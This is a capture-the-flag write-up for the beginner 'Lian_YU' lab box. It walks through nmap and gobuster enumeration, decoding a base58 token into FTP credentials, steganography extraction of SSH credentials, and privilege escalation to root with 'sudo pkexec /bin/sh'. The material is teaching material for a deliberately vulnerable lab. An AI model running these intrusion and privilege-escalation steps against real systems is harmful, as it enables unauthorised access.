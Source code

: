 A beginner level security challenge.
Welcome to Lian_YU, this Arrowverse themed beginner CTF box! Capture the flags and have fun.

### nmap
```sh
21/tcp open ftp vsftpd 3.0.2
22/tcp open ssh OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey:
| 1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
| 2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
| 256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_ 256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp open http Apache httpd
|_http-server-header: Apache
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Purgatory
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100000 3,4
111/tcp6 rpcbind
| 100000 3,4
111/udp6 rpcbind
| 100024 1
34537/tcp status
| 100024 1
50996/udp status
| 100024 1
58218/udp6 status
|_ 100024 1
59541/tcp6 status
34537/tcp open status 1 (RPC #100024)
```

### http_80
**ip**  `10.10.5.96`

To Do List
-------------------------------------
- Visit the site
- Surf around
- Vie source code
- Run Gobuster

#### The Site
![[Pasted image 20241029013931.png]]

The site and the source code has nothing much.
Also i ran `robots.txt` and got nothing.

### Gobuster
```sh
gobuster dir -u http://10.10.5.96 -w /usr/share/wordlists/dirb/common.txt
```

![[Pasted image 20241029014046.png]]

```sh
gobuster dir -u http://10.10.5.96 -w /usr/share/wordlists/dirbuster/directory-list-2.3-
medium.txt
```
![[Pasted image 20241029014117.png]]
`/island`
![[Pasted image 20241029014140.png]]

`/island/source code`
![[Pasted image 20241029014158.png]]

Here we get `vigilante`

### Gobuster /island

```sh
gobuster dir -u http://10.10.5.96/island -w /usr/share/wordlists/dirbuster/directory-list-2.3-
medium.txt
```

![[Pasted image 20241029014319.png]]

Got the directory `/2100`

![[Pasted image 20241029014350.png]]

![[Pasted image 20241029014403.png]]
got a directory extension  `.ticket`

``Gobuster -x .tixket``

```sh
gobuster dir -u http://10.10.5.96/island -w /usr/share/wordlists/dirbuster/directory-list-2.3-
medium.txt -x .ticket
```

```sh
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:
http://10.10.117.94
[+] Method:
GET
[+] Threads:
10
[+] Wordlist:
/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes: 404
[+] User Agent:
gobuster/3.5
[+] Extensions:
ticket
[+] Timeout:
10s
===============================================================
2023/10/01 20:06:41 Starting gobuster in directory enumeration mode
===============================================================
Progress: 20244 / 441122 (17.59%)
/green_arrow.ticket (Status: 200) [Size: 71]
===============================================================
2023/10/01 20:17:28 Finished
===============================================================
```

`/green_arrow.tcket`

```sh
curl http://10.10.5.96/island/2100/green_arrow.ticket
```
- This is just a token to get into Queen's Gambit(Ship)
`RTy8yhBQdscX`

I copied ‘RTy8yhBQdscX’ and used an online tool to identify the hash.
It turns out that the text was encoded with base58. so i opened cyberchef.   `!#th3h00d `

### ftp_21

username  `vigilante`
password  `!#th3h00d`

 ```sh
ftp 10.10.5.96
```

From the FTP server i was able to get some files
• aa.jpg
• Leave_me_alone.png
• Queenâ€™s_Gambit.png
• .other_user

![[Pasted image 20241029015009.png]]

After checking the flies with binwalk i noticed that Leave_me_alone.png has a file format error.

I tried to correct the error since it was a `.png` file. The first 16 digits magic number of a .png file is `89 50 4E 47 0D 0A 1A 0A`.

I edited the magic number of Leave_me_alone.png
using `Hexedit` and see if the error would be corrected.
![[Pasted image 20241029015147.png]]

After i edited the magic numbers i used binwalk to look at it again and now the error is gone.
I opened Leave_me_alone.png to check the content.
![[Pasted image 20241029015222.png]]

I used `stegseek` to see if there are any hidden files in all the files i got from the ftp server.
![[Pasted image 20241029015248.png]]

I found out that there is an hidden file `ss.zip` inside `aa.jpg`.

The content of Leave_me_alone.png is the passphrase to extract the hidden contents in aa.jpg using `steghide` or any other stenography tool.

The hidden file is a .zip file. i extracted the content using unzip.
![[Pasted image 20241029015416.png]]

###  ssh_22

#### Details

Open ssh port = `22`
username = `slade`
password = `M3tahuman`

```sh
 ssh slade@10.10.5.96
```
![[Pasted image 20241029015550.png]]

Now we can read the user flag easily.
![[Pasted image 20241029015622.png]]


### Privilege Escalation
#### To Do List
sudo -l
cat /etc/crontab
find / -perm -u=s -type f 2>/dev/null

![[Pasted image 20241029015731.png]]

After checking the sudoers it shows that i can use /usr/bin/pkexec to escalate my privilege since it is the sudoers file.

I checked gtfobins to see how i would use it.
```sh
sudo pkexec /bin/sh
```
![[Pasted image 20241029015810.png]]

**THAT'S IT FOR THE ROOM!!!**
